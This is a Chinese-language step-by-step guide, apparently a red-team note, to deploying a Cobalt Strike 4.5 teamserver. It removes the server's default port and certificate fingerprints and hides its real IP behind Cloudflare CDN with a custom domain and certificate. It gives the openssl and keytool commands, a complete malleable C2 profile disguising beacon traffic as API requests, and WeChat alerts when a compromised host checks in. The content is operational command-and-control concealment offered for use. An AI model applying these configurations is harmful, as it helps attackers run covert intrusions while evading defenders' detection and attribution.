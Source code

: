 # 0x01 CS服务端搭建
将CS4.5安装包上传到VPS上，执行如下命令即可启动，需要注意，IP地址不能是0.0.0.0
```
./teamserver 192.168.0.125 password
```

# 0x02 CS服务端特征去除
### 01 修改teamserver默认端口
打开文件teamserver，将默认的50050端口改为其他端口
### 02 修改teamserver默认指纹信息
正常情况使用nmap扫描时可看到此特征，如下图  
![image](./pic/02.png)  
阅读代码可知，当没有证书的时候会创建带有cobalt strike信息的证书，有证书的话，则会使用证书中的信息，下面我们会创建自己的证书，就不需要修改teamserver中的cobalt strike信息

# 0x03 CS隐藏真实IP
思路：基于CDN隐藏真实IP
### 步骤1 注册一个域名
有的文章提到使用www.freenom.com平台进行注册，我这边测试从freenom注册免费域名挺费劲的，试了几次都没成功，建议从namesilo购买一个域名，选一个不那么大众化的，每年0.99$
### 步骤2 cdn平台配置dns解析
此处需要大量图文说明，参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”CDN平台配置DNS解析”部分：https://xz.aliyun.com/t/11099#toc-2
```
添加DNS记录时如下
Name：ybdt，IPv4 address：服务器 IP
```
### 步骤3 CDN平台创建证书
此处需要大量图文说明，参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”CDN平台创建证书”部分：https://xz.aliyun.com/t/11099#toc-3
```
要注意，创建时要保存证书和私钥，不然后面没法再看到私钥
```
### 步骤4 CDN平台禁用缓存
此处需要大量图文说明，参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”CDN平台禁用缓存”部分：https://xz.aliyun.com/t/11099#toc-4
### 步骤5 生成CS证书
进入vps中的cs文件夹中，创建两个文件：server.pem（文件中贴入上面的源证书）和server.key（文件中贴入上面的私钥），然后生成新的cobaltstrike证书，如果原先的cobaltstrike文件夹内有默认的.store证书，需要先删除掉默认的
```
openssl pkcs12 -export -in server.pem -inkey server.key -out cfcert.p12 -name cloudflare_cert -passout pass:123456

这里是利用pem和key文件创建新的cert证书，这里的pass密码需要修改，改为复杂的密码，不要使用123456
```
借助生成的cert证书，通过以下命令生成store证书
```
keytool -importkeystore -deststorepass 123456 -destkeypass 123456 -destkeystore cfcert.store -srckeystore cfcert.p12 -srcstoretype PKCS12 -srcstorepass 123456 -alias cloudflare_cert
```
### 步骤6 创建profile文件
```
set sleeptime "3000";

https-certificate {
    set keystore "cfcert.store";
    set password "123456";
}

http-stager {
    set uri_x86 "/api/1";
    set uri_x64 "/api/2";
    client {
        header "Host" "ybdt.test.com";}
    server {
        output{
            print;
        }
    }
}

http-get {
    set uri "/api/3";
    client {
        header "Host" "ybdt.test.com";
        metadata {
            base64;
            header "Cookie";
        }
    }
    server {
        output {
            print;
        }
    }
}

http-post {
    set uri "/api/4";
    client {
        header "Host" "ybdt.test.com";
        id {
            uri-append;
        }
        output {
            print;
        }
    }
    server {
        output {
            print;
        }
    }
}

```
### 步骤7 创建监听器
此处参见文章(https://xz.aliyun.com/t/11099)[https://xz.aliyun.com/t/11099]中的”启动teamserver”部分：https://xz.aliyun.com/t/11099#toc-9
```
需要注意，CloudFlare CDN免费支持的端口如下
http:
80、8080、8880、2052、2082、2086、2095
https:
443、2053、2083、2087、2096、8443
```
### 步骤8 上线测试
上线后，我这边wireshark抓包，抓到的ip查询后发现是微软云（可能是cloudflare的节点在微软云上，或其他原因），如下图  
![image](./pic/01.png)
```
注意，vps的防火墙要打开，我就在这卡了一会
```

# 0x04 CS上线微信提醒
此处参见文章[https://xz.aliyun.com/t/10698](https://xz.aliyun.com/t/10698)中的”微信单人提醒”部分：https://xz.aliyun.com/t/11099#toc-9

vps会提示需要转发x11请求，解决办法：启动时需要加一个参数-Djava.awt.headless=true，修改后如下
```
java -XX:ParallelGCThreads=4 -XX:+AggressiveHeap -XX:+UseParallelGC -Djava.awt.headless=true -classpath ./cobaltstrike.jar aggressor.headless.Start $*
```
注释掉一处安全提醒
```
This can be done by editing the accessibility.properties file for OpenJDK:
sudo vim /etc/java-8-openjdk/accessibility.properties
Comment out the following line:
assistive_technologies=org.GNOME.Accessibility.AtkWrapper
```

# 参考链接
```
https://xz.aliyun.com/t/11099
https://xz.aliyun.com/t/10698
https://github.com/microsoft/vscode-arduino/issues/644
```